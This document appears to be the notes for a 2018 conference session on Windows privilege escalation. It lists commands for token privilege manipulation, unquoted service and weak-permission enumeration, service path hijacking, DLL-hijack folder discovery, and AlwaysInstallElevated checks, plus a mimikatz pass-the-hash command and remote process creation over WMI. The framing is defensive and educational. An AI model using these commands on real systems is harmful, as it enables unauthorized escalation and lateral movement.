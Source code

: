 
## PRIVILEGE ESCALATION in windows

#### CyberArk Impact 2018

@Doronaim



<u>Intro</u>:

In this document you'll be able to find all scripts and code I ran in the session. I hope you'll find these tools helpful in protecting you organization from within.

**Remember **: Assume breach is the right state of mind.



<u>Tools:</u>

1. Windows Internals - https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite
2. Process Hacker - https://wj32.org/processhacker/
3. Mimikatz - https://github.com/gentilkiwi/mimikatz/releases



<u>Part I - Local Privilege Escalation:</u>

1. **Token Manipulation** - Flagging up the "SeDebug" privilege.

   In mimikatz : 

   ```
   privilege::debug
   ```

2. **Unquoted Services**

   In CMD:

   ```
   wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
   ```

3. **Insecure Permissions**

    Check for weak services that allow normal user groups to modify their configuration:

   ```
   accesschk.exe -uwcqv "Everyone" *
   accesschk.exe -uwcqv "Authenticated Users" *
   accesschk.exe -uwcqv "Users" *
   accesschk.exe -uwcqv "<GroupName>" *
   ```

   Change service path in CMD:

   ```
   SC config <serviceName> binPath= “<command>”
   ```

4. **DLL Hijacking**

   Look for folders with insecure permissions:

   (**M**) - Modify (**F**) - Full Access 

   ```
   icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr “BUILTIN\Users"
    
   icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
   ```

5. **EXTRA**

   Check if installers are auto-elevated:

   1. ```
      reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
      ```



<u>Remote Privilege Escalation</u> (RCE)

1. Pass the hash using Mimikatz:

   ```
   sekurlsa::pth /user:Genie /domain:harame.local /ntlm:64f12cddaa88057e06a81b54e73b949b
   ```

2. Access network resouce for having TGT from the DC

   ```
   Dir \\DC\C$
   ```

3. Use the TGT to connect Jafar's machine -  and run a code (we used notepad as PoC)

   ```
   wmic /node:Jafar process call create "notepad.exe"
   ```



[Sploitspern]: https://www.sploitspren.com/2018-01-26-Windows-Privilege-Escalation-Guide/
[Pentest.blog]: https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
